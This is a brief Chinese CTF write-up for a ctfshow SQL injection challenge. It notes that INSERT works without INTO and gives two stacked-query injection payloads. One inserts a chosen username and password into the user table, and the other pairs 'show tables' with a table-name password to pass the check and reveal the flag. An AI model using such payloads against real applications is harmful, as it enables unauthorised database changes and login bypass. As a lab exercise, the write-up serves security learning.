 # 知识点
### insert
insert 可以不要into
# 思路
### 方法一
```php
0;insert ctfshow_user(`username`,`pass`) value(1,2)
username 1
pass 2
```
![image.png](./images/20231017_2351529125.png)
### 方法二
我们可以在username把表全部查询出来，在password里传入表名，相等即可符合判断条件爆出flag
```php
username：520;show tables
password：ctfshow_user
```
